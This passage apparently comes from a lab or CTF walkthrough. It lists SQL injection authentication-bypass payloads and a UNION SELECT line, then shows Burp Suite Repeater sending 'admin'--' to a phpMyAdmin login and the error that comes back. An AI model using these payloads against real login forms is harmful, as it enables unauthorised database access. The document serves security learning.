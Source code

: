 admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

These payloads indicate the presence of an SQL injection vulnerability elsewhere in the application, likely intended to be used for authentication bypass or database extraction. Let's explore Burp Suite !

<details><summary>SQL Injection Explanation</summary></details>


## Burp Suite

<details><summary>What is Burp Suite ?</summary></details>

Let's try Burpt Suite, first we need to configure it and test it.

<details><summary>Burp Suite configutation</summary></details>

<img width="3356" height="1832" alt="POC4BurpSuite" src="https://github.com/user-attachments/assets/befe04e8-846e-40e6-9daa-ca3f4429fd43" />

Now that it work, we need to right click on the request and ```Send to repeater```, go to the repeater tab and change the vars in the ```Request body parameters``` which is in the ```Inspector``` right tab, here are the two parameters we should change :
(don't forget to press enter in order to confirm the change)

```
pma_username : test
pma_password : test
```

Let's try this first combination.

```
pma_username : admin'--
pma_password : anything
```

And here is the result, we can find it in the far bottom of the ```Response``` left tab.

```
<div class="alert alert-danger" role="alert">
  <img src="themes/dot.gif" title="" alt="" class="icon ic_s_error">
  mysqli::real_connect(): (HY000/1045): Access denied for user 'admin'--'@'localhost' (using password: YES)
</div>
```

But the problem is that if we try a second time, this error message will appear for every new try :
```